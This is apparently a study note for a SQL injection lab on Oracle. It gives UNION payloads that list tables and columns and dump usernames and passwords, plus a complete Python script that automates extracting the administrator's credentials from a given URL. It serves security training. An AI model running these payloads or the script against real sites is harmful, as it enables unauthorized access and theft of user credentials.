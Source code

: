 # Listing the contents of the database (Oracle)
---
On Oracle, you can obtain the same information with slightly different queries.
You can list tables by querying `all_tables`:
```sql
SELECT * FROM all_tables
```

And you can list columns by querying `all_tab_columns`:
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

# Lab: SQL injection attack, listing the database contents on Oracle
---
1. Use bupsuite to intercept and modify the request that sets the product category filter.
2. Determine the [[2. Determining columns required in an UNION attack|number of columns that are being returned by the query]] and [[3. Finding columns to inject in UNION attack|which columns contain text data]].
3. Verify that the query is returning `two` columns, both of which contain text, using a payload like the following in the `category` parameter:
	- `' UNION SELECT 'a','a' FROM dual--`
4. Use the following payload to retrieve the list of tables in the database:
	- `' UNION SELECT table_name,NULL FROM all_tables--`
5.  Find the name of the table containing user credentials.
6. Use the following payload (_replacing the table name_) to retrieve the details of the columns in the table:
	- `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ABCDEF'--`
7. Find the names of the columns containing usernames and passwords.
8. Use the following payload (_replacing the table and column names_) to retrieve the usernames and passwords for all users:
	- `' UNION SELECT USERNAME_ABCDEF || ':' || PASSWORD_ABCDEF FROM USERS_ABCDEF--`
1. Find the password for the `administrator` user, and use it to log in.

```python
#!/usr/bin/env python3
# Listing the database contents on Oracle databases
import requests
import sys
import re
from bs4 import BeautifulSoup

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_col(url):
    for i in range(1,10):
        sqli = f"' ORDER BY {i}--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

def determined_col(url, number_col):
    for i in range(1,num_col+1):
        payload_list = ['NULL'] * number_col
        payload_list[i-1] = "'a'"
        sqli = f"' UNION SELECT {','.join(payload_list)} FROM dual--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" not in req.text:
            return sqli
    return False

def get_user_table(url, sqli):
    sqli1 = sqli.replace("'a'", "table_name")
    sqli2 = sqli1.replace("dual", "all_tables")
    # ' UNION SELECT table_name,NULL FROM all_tables--
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find(string=re.compile('^USERS_[A-Za-z]+'))
        return result
    else:
        return False

def get_user_column(url, sqli, table):
    sqli1 = sqli.replace("'a'", "column_name")
    sqli2 = sqli1.replace("dual", f" all_tab_columns WHERE table_name = '{table}'")
    # ' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = '<table>'--
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        username_col = soup.find(string=re.compile('.*USERNAME.*'))
        password_col = soup.find(string=re.compile('.*PASSWORD.*'))
        return username_col, password_col
    else:
        return False

def get_creds(url, sqli, table, username_col, password_col):
    sqli1 = sqli.replace("'a'", f"{username_col} || ':' || {password_col}")
    sqli2 = sqli1.replace("dual", table)
    # ' UNION SELECT username_col || ':' || password_col,NULL FROM <table>--
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find(string=re.compile('administrator:[A-Za-z0-9]+'))
        return result
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("Usage: {} <url>".format(sys.argv[0]))
        print("Example: {} http://example.com".format(sys.argv[0]))

    num_col = get_col(url)
    if num_col:
        print("[-] The number of columns is...       [{}]".format(num_col))

        deter_col = determined_col(url, num_col)
        if deter_col:
            print("[-] Found the injectable columns...   [{}]".format(deter_col))

            user_table = get_user_table(url, deter_col)
            if user_table:
                print("[-] Found the users table_name...     [{}]".format(user_table))

                username_col, password_col = get_user_column(url, deter_col, user_table)
                if username_col and password_col:
                    print("[-] Found the username column_name... [{}]".format(username_col))
                    print("[-] Found the password column_name... [{}]".format(password_col))

                    dump = get_creds(url, deter_col, user_table, username_col, password_col)
                    if dump:
                        print("[-] Found the superuser creds...      [{}]".format(dump))


                    else:
                        print("[-] Can't find the superuser creds!")
                else:
                    print("[-] Can't find the users column!")
            else:
                print("[-] Can't find the users table!")
        else:
            print("[-] Can't find the injectable columns!")    
    else:
        print("[-] SQLi not successful!")
```